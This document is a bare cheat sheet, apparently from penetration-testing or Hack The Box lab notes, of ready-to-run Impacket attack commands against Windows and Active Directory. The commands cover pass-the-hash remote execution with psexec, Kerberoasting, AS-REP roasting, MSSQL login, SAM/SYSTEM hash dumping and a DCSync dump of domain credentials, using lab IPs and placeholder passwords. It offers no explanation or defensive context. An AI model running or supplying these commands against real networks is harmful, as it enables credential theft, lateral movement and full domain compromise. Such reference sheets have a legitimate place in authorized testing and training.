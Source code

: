 
### IMPACKET-COLLECTION


psexec
```
impacket-psexec -hashes 00000000000000000000000000000000:2a944a58d4ffa77137b2c587e6ed7626 user@10.10.10.20
```
Kerberos

```
impacket-GetUserSPNs corp.com/user:'Passw0rd' -dc-ip 10.10.10.20 -outputfile user.kerb￼￼
```
AS-REP Roast

```￼￼
impacket-GetNPUsers corp.com/user:'Passw0rd' -dc-ip 10.10.10.20 -outputfile user.hash
```
Mssql
```￼
impacket-mssqlclient sequel.htb/rose:Passw0rd@10.10.10.20 -windows-auth
```
SAM&SYSTEM DUMP

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```
DCsync ATTACK
```
impacket-secretsdump -just-dc-user username corp.com/jefeadmin:"Passw0rd"@10.10.10.20
```
